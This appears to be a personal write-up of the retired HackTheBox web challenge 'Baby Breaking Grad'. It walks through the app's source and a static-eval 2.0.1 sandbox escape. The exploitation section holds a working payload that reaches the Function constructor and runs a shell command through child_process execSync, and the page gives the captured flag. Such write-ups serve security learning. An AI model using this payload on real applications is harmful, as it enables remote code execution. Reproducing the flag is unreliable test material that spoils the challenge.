 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags: RCE, static-eval
---
```

>[!quote]
> We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...


# Set up

-

# Information Gathering

![Pasted image 20210830182532.png](../../zzz_res/attachments/Pasted_image_20210830182532.png)

![Pasted image 20210830183346.png](../../zzz_res/attachments/Pasted_image_20210830183346.png)

Files:

```
.
├── build_docker.sh
├── challenge
│   ├── flag
│   ├── helpers
│   │   └── StudentHelper.js
│   ├── index.js
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── images
│   │   │   ├── favicon.png
│   │   │   └── koulis.gif
│   │   └── js
│   │       ├── koulis.js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarn.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── web_baby_breaking_grad.zip
```

Passed with:

```json
{"name":"0xbro",
"formula":"[0.20 * assignment + 0.25 * exam + 0.25 * paper]",
"exam":"99",
"paper":"99",
"assignment":"99"}
```

**Index.js**

```jsx
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

**StudentHelper.js**

```jsx
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        console.log("isDumb: " + name.includes('Baker') || name.includes('Purvis'));
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });
        console.log("ast: " + ast);
        console.log("weight: " + weight);
        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

# The Bug

- `evaluate(ast, { exam, paper, assignment });` --> incorporates attacker-controllable data
- **static-eval/2.0.1** has [https://snyk.io/test/npm/static-eval/2.0.1](https://snyk.io/test/npm/static-eval/2.0.1)
- [https://github.com/advisories/GHSA-8v27-2fg9-7h62](https://github.com/advisories/GHSA-8v27-2fg9-7h62)

# Exploitation
- [https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13](https://github.com/browserify/static-eval/commit/0bcd9dc93f42898dfd832a10915a4544e11b8f13)
- [https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html](https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html)

```jsx
`(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()`
```

![Pasted image 20210831174712.png](../../zzz_res/attachments/Pasted_image_20210831174712.png)

# Flag

 >[!success]
 >`HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}`

![Pasted image 20210831173023.png](../../zzz_res/attachments/Pasted_image_20210831173023.png)

![Pasted image 20210831173058.png](../../zzz_res/attachments/Pasted_image_20210831173058.png)